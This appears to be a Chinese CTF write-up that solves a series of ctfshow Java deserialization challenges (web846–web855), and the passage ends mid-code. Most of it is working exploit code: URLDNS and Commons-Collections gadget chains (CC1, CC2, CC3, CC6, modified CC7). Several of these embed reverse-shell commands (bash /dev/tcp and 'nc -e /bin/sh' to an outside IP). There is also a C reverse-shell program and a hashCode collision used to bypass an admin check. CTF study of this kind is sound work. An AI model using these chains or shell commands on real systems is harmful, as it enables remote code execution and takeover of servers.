


+++
title= "Ctfshow  Java反序列化"
slug= "ctfshow-java-deserialization"
description= ""
date= "2025-11-12T09:06:07+08:00"
lastmod= "2025-11-12T09:06:07+08:00"
image= ""
license= ""
categories= ["ctfshow"]
tags= [""]

+++

在做题之前先说一件事，先打本地再打远程😎

## web846

直接打urldns链即可，用的 jdk8u66

```java
package org.example.cc;

import java.io.*;
import java.net.URL;
import java.net.URLStreamHandler;
import java.net.URLConnection;
import java.net.InetAddress;
import java.util.HashMap;
import java.util.Base64;

public class web846 {
    public static void main(String[] args) throws Exception {
        //String testUrl = "https://pgdyxc8a.requestrepo.com/";
        String testUrl = "https://4a99d5da-d941-472d-bf4c-7c60c221bf96.challenge.ctf.show/";
        byte[] payload = generatePayload(testUrl);
        String base64 = Base64.getEncoder().encodeToString(payload);
        System.out.println("[+] Payload Base64: " + base64);
        System.out.println("[+] Payload 已生成: 字节数组");
        System.out.println("[*] 开始反序列化...");
        deserializePayload(payload);
    }

    private static byte[] generatePayload(String url) throws Exception {
        URLStreamHandler handler = new SilentURLStreamHandler();
        HashMap<URL, String> hashMap = new HashMap<>();
        URL u = new URL(null, url, handler);
        hashMap.put(u, url);
        java.lang.reflect.Field hashCodeField = URL.class.getDeclaredField("hashCode");
        hashCodeField.setAccessible(true);
        hashCodeField.set(u, -1);
        return serialize(hashMap);
    }

    private static void deserializePayload(byte[] bytes) throws Exception {
        Object obj = unserialize(bytes);
    }

    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    public static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }

    private static class SilentURLStreamHandler extends URLStreamHandler {
        protected URLConnection openConnection(URL u) throws IOException {
            return null;
        }
        protected synchronized InetAddress getHostAddress(URL u) {
            return null;
        }
    }
}
```



## web847

java7，使用了commons-collections 3.1，直接打 CC1，本地然后换成弹shell的死活不成功，于是不用 LazyMap，用 TransformedMap，但是又出现了依赖不同的报错

```plain
HTTP Status 500 - java.io.InvalidClassException: org.apache.commons.collections.map.TransformedMap; local class incompatible: stream classdesc serialVersionUID = 7023152445508377200, local class serialVersionUID = 7023152376788900464
```

索性直接用 ysoserial-all.jar 为依赖

```java
package org.example.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class web847 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
//                new InvokerTransformer("exec", new Class[]{String[].class},
//                        new Object[]{new String[]{"calc"}}),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[] {"bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE1NC4zNi4xNTIuMTA5LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}"}),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        //outerMap.put("value", "yyy");
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);


        byte[] data =serialize(handler);
        String base64 = Base64.getEncoder().encodeToString(data);
        System.out.println(base64);

        //Object o = unserialize(data);
    }
    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    public static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```

## web848

不让使用 TransformedMap，直接打 CC6

```java
package org.example.cc;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class web848{
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {
                new ConstantTransformer(1)
        };

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] { String.class, Class[].class },
                        new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke",
                        new Class[] { Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),
//                new InvokerTransformer("exec", new Class[]{String[].class},
//                        new Object[]{new String[]{"calc"}}),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[] {"bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE1NC4zNi4xNTIuMTA5LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}"}),
                new ConstantTransformer(1)
        };

        Transformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "test2");
        Map expMap = new HashMap();
        expMap.put(tme, "test3");
        outerMap.remove("test2");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);

        byte[] data =serialize(expMap);
        String base64 = java.util.Base64.getEncoder().encodeToString(data);
        System.out.println(base64);

        Object o = unserialize(data);
    }
    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    public static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }

}
```

## web849

commons-collections 4.0 直接打 CC2，恶意类如下

```java
package org.example.cc;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Eval extends AbstractTranslet {
    static {
        try {
            //Runtime.getRuntime().exec("calc");
            Runtime.getRuntime().exec("nc 154.36.152.109 4444 -e /bin/sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers)
            throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
            throws TransletException {}
}
```

poc如下

```java
package org.example.cc;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;


public class web849 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();

        setFieldValue(templates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.example.cc.Eval.class.getName()).toBytecode()});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer transformer = new InvokerTransformer("toString", null, null);
        Comparator comparator = new TransformingComparator(transformer);

        PriorityQueue queue = new PriorityQueue(2, comparator);

        queue.add(templates);
        queue.add(templates);

        Field iMethodNameField = InvokerTransformer.class.getDeclaredField("iMethodName");
        iMethodNameField.setAccessible(true);
        iMethodNameField.set(transformer, "newTransformer");

        byte[] data = serialize(queue);
        String base64 = java.util.Base64.getEncoder().encodeToString(data);
        System.out.println(base64);
        unserialize(data);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

有报错但是无所谓，因为我本地也有报错，成功getshell

## web850

commons-collections 3.1，但是这个破玩意用 java7 就很傻逼，javassist 获得的Class字节码也有区别，我使用的 7u21，打的CC3，最终poc如下

```java
package org.example.cc;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class web850 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();

        setFieldValue(templates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.example.cc.Eval.class.getName()).toBytecode()});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer[] fake = new Transformer[]{new ConstantTransformer(1)};
        Transformer[] real = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[] {Templates.class},
                        new Object[] {templates}
                )
        };

        Transformer chain = new ChainedTransformer(fake);
        Map inner = new HashMap();
        Map lazy = LazyMap.decorate(inner, chain);

        TiedMapEntry entry = new TiedMapEntry(lazy, "key");
        Map exp = new HashMap();
        exp.put(entry, "value");
        lazy.remove("key");

        setFieldValue(chain, "iTransformers", real);

        byte[] ser = serialize(exp);
        String base64 = toBase64(ser);
        System.out.println(base64);
        unserialize(ser);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        new ObjectOutputStream(baos).writeObject(obj);
        return baos.toByteArray();
    }

    private static void unserialize(byte[] bytes) throws Exception {
        new ObjectInputStream(new ByteArrayInputStream(bytes)).readObject();
    }
    public static String toBase64(byte[] data) {
        char[] CA = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/".toCharArray();
        int len = data.length;
        StringBuilder sb = new StringBuilder(((len + 2) / 3) * 4);
        int i = 0;
        while (i < len) {
            int b0 = data[i++] & 0xFF;
            int b1 = i < len ? data[i++] & 0xFF : -1;
            int b2 = i < len ? data[i++] & 0xFF : -1;
            sb.append(CA[b0 >>> 2]);
            if (b1 != -1) {
                sb.append(CA[((b0 & 0x03) << 4) | (b1 >>> 4)]);
                if (b2 != -1) {
                    sb.append(CA[((b1 & 0x0F) << 2) | (b2 >>> 6)]);
                    sb.append(CA[b2 & 0x3F]);
                } else {
                    sb.append(CA[(b1 & 0x0F) << 2]);
                    sb.append('=');
                }
            } else {
                sb.append(CA[(b0 & 0x03) << 4]);
                sb.append('=');
                sb.append('=');
            }
        }
        return sb.toString();
    }
}
```

恶意类同样也需要修改 payload

```java
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE1NC4zNi4xNTIuMTA5LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}");
```

## web851

commons-collections 4.0，打 CC4（因为前面没打过）发现不行，用原始 CC7 发现缺少部分类，所以需要修改一下，将 LazyMap 换成 DefaultedMap

```java
package org.example.cc;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.map.DefaultedMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class web851 {

    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null, null)
        };
        ChainedTransformer chain = new ChainedTransformer(new Transformer[]{});

        Class<DefaultedMap> d = DefaultedMap.class;
        Constructor<DefaultedMap> declaredConstructor = d.getDeclaredConstructor(Map.class, Transformer.class);
        declaredConstructor.setAccessible(true);
        DefaultedMap defaultedMap1 = declaredConstructor.newInstance(new HashMap(), chain);
        DefaultedMap defaultedMap2 = declaredConstructor.newInstance(new HashMap(), chain);
        defaultedMap1.put("yy", 1);
        defaultedMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(defaultedMap1, 1);
        hashtable.put(defaultedMap2, 2);

        setFieldValue(chain, "iTransformers", transformers);
        defaultedMap2.remove("yy");

        setFieldValue(templates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.example.cc.Eval.class.getName()).toBytecode()});

        byte[] payload = serialize(hashtable);
        String base64 = java.util.Base64.getEncoder().encodeToString(payload);
        System.out.println(base64);
        deserialize(payload);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static void deserialize(byte[] payload) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(payload);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }
}
```

本地通了，但是好像不让用 TemplatesImpl，所以换成 Transformer 链

```java
package org.example.cc;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.map.DefaultedMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class web851 {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
//                new InvokerTransformer("exec",
//                        new Class[]{String.class},
//                        new Object[]{"calc"})
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[] {"nc 154.36.152.109 4444 -e /bin/sh"}),

        };

        ChainedTransformer chain = new ChainedTransformer(new Transformer[]{});

        Class<DefaultedMap> d = DefaultedMap.class;
        Constructor<DefaultedMap> declaredConstructor = d.getDeclaredConstructor(Map.class, Transformer.class);
        declaredConstructor.setAccessible(true);
        DefaultedMap defaultedMap1 = declaredConstructor.newInstance(new HashMap(), chain);
        DefaultedMap defaultedMap2 = declaredConstructor.newInstance(new HashMap(), chain);
        defaultedMap1.put("yy", 1);
        defaultedMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(defaultedMap1, 1);
        hashtable.put(defaultedMap2, 2);

        setFieldValue(chain, "iTransformers", transformers);
        defaultedMap2.remove("yy");

        byte[] payload = serialize(hashtable);
        String base64 = java.util.Base64.getEncoder().encodeToString(payload);
        System.out.println(base64);
        deserialize(payload);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static void deserialize(byte[] payload) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(payload);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }
}
```

## web852--web853

和 web851 一致

## web854

给出了黑名单，

```java
TransformedMap
PriorityQueue
InstantiateTransformer
TransformingComparator
TemplatesImpl
AnnotationInvocationHandler
HashSet
Hashtable
LazyMap
```

直接用 DefaultedMap 改一下 CC4

```java
package org.example.cc;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;
import org.apache.commons.collections4.map.DefaultedMap;

import javax.management.BadAttributeValueExpException;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class web854 {
    public static void main(String[] args) throws Exception {
        Transformer[] inert = new Transformer[]{ new ConstantTransformer(1) };
        Transformer[] real = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
//                new InvokerTransformer("exec",
//                        new Class[]{String.class},
//                        new Object[]{"calc"})
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[] {"nc 154.36.152.109 4444 -e /bin/sh"}),
        };

        ChainedTransformer chain = new ChainedTransformer(inert);

        Class<DefaultedMap> d = DefaultedMap.class;
        Constructor<DefaultedMap> declaredConstructor = d.getDeclaredConstructor(Map.class, Transformer.class);
        declaredConstructor.setAccessible(true);
        DefaultedMap defaultedMap = declaredConstructor.newInstance(new HashMap(), chain);
        TiedMapEntry entry = new TiedMapEntry(defaultedMap, "foo");

        BadAttributeValueExpException bave = new BadAttributeValueExpException(null);
        setFieldValue(bave, "val", entry);

        setFieldValue(chain, "iTransformers", real);

        byte[] data = serialize(bave);
        String base64 = java.util.Base64.getEncoder().encodeToString(data);
        System.out.println(base64);
        unserialize(data);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

## web855

```java
package com.ctfshow.entity;
 
import java.io.*;
 
public class User implements Serializable {
    private static final long serialVersionUID = 0x36d;
    private String username;
    private String password;
 
    public User(String username, String password) {
        this.username = username;
        this.password = password;
    }
 
    public String getUsername() {
        return username;
    }
 
    public void setUsername(String username) {
        this.username = username;
    }
 
    public String getPassword() {
        return password;
    }
 
    public void setPassword(String password) {
        this.password = password;
    }
 
 
    private static final String OBJECTNAME="ctfshow";
    private static final String SECRET="123456";
 
    private static  String shellCode="chmod +x ./"+OBJECTNAME+" && ./"+OBJECTNAME;
 
 
 
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        int magic = in.readInt();
        if(magic==2135247942){
            byte var1 = in.readByte();
 
            switch (var1){
                case 1:{
                    int var2 = in.readInt();
                    if(var2==0x36d){
 
                        FileOutputStream fileOutputStream = new FileOutputStream(OBJECTNAME);
                        fileOutputStream.write(new byte[]{0x7f,0x45,0x4c,0x46});
                        byte[] temp = new byte[1];
                        while((in.read(temp))!=-1){
                            fileOutputStream.write(temp);
                        }
 
                        fileOutputStream.close();
                        in.close();
 
                    }
                    break;
                }
                case 2:{
 
                    ObjectInputStream.GetField gf = in.readFields();
                    String username = (String) gf.get("username", null);
                    String password = (String) gf.get("password",null);
                    username = username.replaceAll("[\\p{C}\\p{So}\uFE00-\uFE0F\\x{E0100}-\\x{E01EF}]+", "")
                            .replaceAll(" {2,}", " ");
                    password = password.replaceAll("[\\p{C}\\p{So}\uFE00-\uFE0F\\x{E0100}-\\x{E01EF}]+", "")
                            .replaceAll(" {2,}", " ");
                    User var3 = new User(username,password);
                    User admin = new User(OBJECTNAME,SECRET);
                    if(var3 instanceof  User){
                        if(OBJECTNAME.equals(var3.getUsername())){
                            throw  new RuntimeException("object unserialize error");
                        }
                        if(SECRET.equals(var3.getPassword())){
                            throw  new RuntimeException("object unserialize error");
                        }
                        if(var3.equals(admin)){
                            Runtime.getRuntime().exec(shellCode);
                        }
                    }else{
                        throw  new RuntimeException("object unserialize error");
                    }
                    break;
                }
                default:{
                    throw  new RuntimeException("object unserialize error");
                }
            }
        }
 
    }
 
    @Override
    public boolean equals(Object o) {
        if (this == o) return true;
        if (!(o instanceof User)) return false;
        User user = (User) o;
        return this.hashCode() == user.hashCode();
    }
 
    @Override
    public int hashCode() {
        return username.hashCode()+password.hashCode();
    }
 
 
}
```

就一个User类，身份验证为 admin 可直接命令执行，但是看了下 shellcode 并不可控，它是在给文件执行权限和执行文件，case1 可以写入文件，并且文件头固定为 elf，

```c
#include<stdlib.h>
 int main() {
    system("nc 154.36.152.109 4444 -e /bin/sh"); 
    return 0;    
}
//gcc 1.c -o poc
```

然后删除前四个字节，然后再`xxd -g 1 -l 8 poc`去看字节变化

```python
import os
p = 'poc'
with open(p,'rb') as f:
    data = f.read()
# 去掉前4字节
trim = data[4:]
with open(p,'wb') as f:
    f.write(trim)
    f.truncate(len(trim))
print('done, new size:', len(trim))
# 覆盖前 poc 前8字节:
# 00000000: 7f 45 4c 46 02 01 01 00                          .ELF....
# done, new size: 33420
# 覆盖后 poc 前8字节:
# 00000000: 02 01 01 00 00 00 00 00                          ........
# -rwxr-xr-x@ 1 admin  staff    33K Nov 11 11:49 poc
```

根据`User#readObject`重写 writeObject

```java
private void writeObject(ObjectOutputStream outputStream) throws IOException {
    outputStream.writeInt(2135247942);
    outputStream.writeByte(1);
    outputStream.writeInt(0x36d);
    File filename = new File("poc");
    BufferedInputStream bufferedInputStream = new BufferedInputStream(new FileInputStream(filename));
    ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream(1024);
    byte[] temp = new byte[1024];
    int size = 0;
    while((size = bufferedInputStream.read(temp))!=-1){
        byteArrayOutputStream.write(temp,0,size);
    }
    bufferedInputStream.close();
    byte[] bytes = byteArrayOutputStream.toByteArray();
    outputStream.write(bytes);
    outputStream.defaultWriteObject();
}
```

写入文件的poc

```java
package com.ctfshow.entity;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class web855 {
    public static void main(String[] args) throws IOException {
        User user = new User("baozongwi", "123456");
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(user);

        byte[] payloadBytes = byteArrayOutputStream.toByteArray();
        String payload = Base64.getEncoder().encodeToString(payloadBytes);
        System.out.println(payload);
    }
}
```

case2 需要 hash 比较相等，但是又不能是一样的明文，碰撞一下

```python
def hashcode(val):
    h=0
    for i in range(len(val)):
        h=31 * h + ord(val[i])
    return h 
t="ct"
# t="12"
for k in range(1,128):
    for l in range(1,128):
        if t!=(chr(k)+chr(l)):
            if(hashcode(t)==hashcode(chr(k)+chr(l))):
                print(t,chr(k)+chr(l))
# ct dU
# ct e6
# ct f
# 12 /p
# 12 0Q
# 12 2
```

重写下 writeObject

```java
private void writeObject(ObjectOutputStream outputStream) throws IOException {
    outputStream.writeInt(2135247942);
    outputStream.writeByte(2);
    outputStream.defaultWriteObject();
}
```

触发 poc 如下

```java
package com.ctfshow.entity;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class web855 {
    public static void main(String[] args) throws IOException {
        User user = new User("dUfshow", "0Q3456");
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
